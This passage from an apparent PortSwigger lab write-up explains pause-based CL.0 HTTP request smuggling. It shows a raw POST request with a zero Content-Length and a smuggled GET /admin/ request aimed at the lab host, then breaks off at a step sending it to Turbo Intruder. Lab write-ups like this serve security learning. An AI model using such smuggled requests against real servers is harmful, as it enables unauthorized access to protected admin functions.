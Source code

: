As you can see, it's redirecting us to `/resources/`.

**To exploit pause-based CL.0, we first create a CL.0 attack request:**
```http
POST /resources HTTP/1.1
Host: 0ad4008d0447beb8c01f2c810045009b.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin/ HTTP/1.1
Host: 0ad4008d0447beb8c01f2c810045009b.web-security-academy.net


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-22/images/Pasted%20image%2020230226193518.png)

**Then, send that request to "Turbo Intruder":**

> Note: I tried to write a Python script to do that, however I wasn't able to send raw HTTP request. No idea why.
